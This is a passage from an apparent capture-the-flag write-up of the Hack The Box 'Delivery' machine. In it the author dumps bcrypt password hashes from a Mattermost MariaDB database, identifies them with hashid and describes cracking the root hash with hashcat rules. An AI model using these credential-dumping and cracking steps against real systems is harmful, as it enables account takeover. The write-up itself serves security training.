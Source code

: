 ```bash
+---------------+--------------------------------------------------------------+----------------------------+---------+
| maildeliverer | $2a$08$VlccTgoFaxEaGJnZtWwJBOf2EqMW5L1ZLA72QoQN/TrrOJt9mFGcy | maildeliverer@delivery.htb |       1 |
+---------------+--------------------------------------------------------------+----------------------------+---------+
1 row in set (0.000 sec)
...

maildeliverer@Delivery:/opt/mattermost/config$ mysql -u mmuser -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 132
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.000 sec)
...
MariaDB [mattermost]> select username, Password from Users;
+----------------------------------+--------------------------------------------------------------+
| username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
| maoutis                          | $2a$10$n5KAvICmMNkb.p2v6GykTelCuchClta2OY/c5H2owWZJBjBgPZY8e |
+----------------------------------+--------------------------------------------------------------+
8 rows in set (0.000 sec)
```

Cracked the corresponding password for the root user using hashcat custom rules (variation of PleaseSubscribe!):

[Hob0Rules/d3adhob0.rule at master · praetorian-inc/Hob0Rules](https://github.com/praetorian-inc/Hob0Rules/blob/master/d3adhob0.rule)

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Delivery/loot]
└─$ hashid '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO'
Analyzing '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt

┌──(kali㉿kali)-[~/…/HTB/box/Delivery/loot]
└─$ hashid maildeliverer-admin.passwd 
--File 'maildeliverer-admin.passwd'--
Analyzing '$2a$08$VlccTgoFaxEaGJnZtWwJBOf2EqMW5L1ZLA72QoQN/TrrOJt9mFGcy'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
```